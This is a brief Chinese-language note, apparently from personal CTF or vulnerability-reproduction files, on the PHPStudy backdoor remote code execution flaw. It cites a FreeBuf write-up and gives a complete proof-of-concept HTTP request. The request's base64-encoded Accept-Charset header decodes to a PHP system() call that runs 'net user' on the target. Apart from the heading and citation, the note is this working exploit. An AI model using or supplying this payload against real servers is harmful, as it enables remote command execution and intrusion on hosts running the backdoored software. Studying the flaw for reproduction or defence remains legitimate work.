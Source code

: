 ## PHPStudy 后门RCE

**文章** [phpStudy远程RCE漏洞复现以及沦陷主机入侵溯源分析 - FreeBuf网络安全行业门户](F:\LocalCTF\phpStudy远程RCE漏洞复现以及沦陷主机入侵溯源分析 - FreeBuf网络安全行业门户.pdf)

**poc**

```http
php:5.2.17   5.4.45

GET / HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:57.0) Gecko/20100101 Firefox/57.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Encoding:gzip,deflate
Accept-Charset:c3lzdGVtKCJuZXQgdXNlciIpOw==
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
Content-Length: 2
```

